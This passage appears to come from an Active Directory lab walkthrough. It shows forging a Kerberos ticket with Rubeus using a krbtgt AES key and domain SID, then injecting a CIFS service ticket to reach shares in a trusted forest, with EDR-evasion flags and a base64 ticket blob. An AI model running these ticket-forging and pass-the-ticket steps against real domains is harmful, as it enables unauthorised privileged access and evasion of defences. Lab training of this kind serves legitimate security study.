cI9kVWUZkHYoLCjKG3L2XIw2o/ntdjG16VUI4yTVGKK82+JkKHdAEtFHMO9VQ3aQ7T0f8kTGxXQtRcknABMWlEIULJLbihZNV6Zbtw/B+0KqC1km9Dz7XgaFwic2jPpL6j0Kq5M4mdz5lfOi6OC4R4mU/1RlHK/AhjOYUa/R39oPlz1Ol8maMnV+THAn6jTbF8DKFGO68Fq3vPzcCg2N8iPaz4+Q11R7+FQzDKti1xr3YvEzppZUhsyip9sGR+xok0SA+sHaW3ikGx+XzbVKvX5HZkc5iuWwyrC3/m6iPBImilg5iCH9OEiUH/9RW0/gzTkJ/Ct5C+pUuqb52UBObnTu7XeZyq5RhxJjN/pxRwRJcW9XM3oX4PuSNVINOb9wzylrFbulN8/sCJzwYtBM32bqo4dd3WWfcm9LUvkMpx6OB8jCB76ADAgEAooHnBIHkfYHhMIHeoIHbMIHYMIHVoCswKaADAgESoSIEIA0w8k1JC4pSwgM7BXE5fr9KL35iDisZ3GqtmvzXUl5VoQobCEVVLkxPQ0FMohowGKADAgEBoREwDxsNYWRtaW5pc3RyYXRvcqMHAwUAQKAAAKQRGA8yMDI1MDIxMjIxNTY0MlqlERgPMjAyNTAyMTIyMTU2NDJaphEYDzIwMjUwMjEzMDc1NjQyWqcRGA8yMDI1MDIxOTIxNTY0MlqoChsIRVUuTE9DQUypHTAboAMCAQKhFDASGwZrcmJ0Z3QbCGV1LmxvY2Fs
`
The command you provided is running Loader.exe with the -Path parameter to fetch Rubeus.exe from a local HTTP server. Then, -args passes additional arguments to Rubeus (silver):
/user:administrator specifies the username to impersonate or target in the Kerberos-related action.
/ldap tells Rubeus to interact with LDAP. This is often used in Kerberos ticket-related enumeration.
/service:krbtgt/eu.local defines the service principal name (SPN) for which a Kerberos ticket is being requested or manipulated. In this case, it's the krbtgt account for the eu.local domain, which is a common target when dealing with Kerberos ticket attacks like Golden Tickets.
/aes256:c197d2f364de43df95ff8ef720a1d3e2453c1aaf938085dfaa8b26b9dfcb507a supplies the AES-256 key for the account, the krbtgt account. This is often used in ticket-forging Golden Tickets.
/sid:S-1-5-21-3657428294-2017276338-1274645009 provides the domain SID, which is crucial for crafting valid Kerberos tickets in Golden Ticket attacks.
/opsec is an operational security-focused flag in Rubeus that aims to avoid suspicious activity or reduce detection by EDRs/AVs when performing ticket injection or ticket-related operations.
/nowrap prevents Rubeus from wrapping base64-encoded output across multiple lines. This is useful when working with tools that require single-line encoded tickets.
So, putting it all together, this is likely crafting or requesting a Kerberos ticket (possibly a Golden Ticket) for the administrator user in the eu.local domain using the krbtgt AES-256 key and domain SID, with some OPSEC considerations to reduce detection.
Requesting a Service Ticket
In the second step, we are injecting the forged ticket into our session and using it to authenticate against the CIFS (file sharing service) on euvendor.local forest domain. This allows us to establish a foothold at the forest level while still using the forged ticket.
By passing the ticket (/ptt), we ensure that all subsequent Kerberos authentication requests use this ticket, granting us high-level access in the root domain.
We should encode the Rubeus argument(asktgs) with ArgSplit.bat and do the copy/paste into our session were Rubeus will be executed.
ArgSplit.bat

Running Rubeus.
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt /ticket:

As we can see above we were able to Request the service ticket and inject it into our current session. We can also double check this with klist command.
klist

We now have the TGS for CIFS on euvendor.local. We can only access the resources explicitly shared with Domain Admins of eu.local as we have the access to euvendor-dc as domain admins of eu.local.
dir \\euvendor-dc.euvendor.local\eushare

We are now able to access the eushare folder, but we can not access euadmins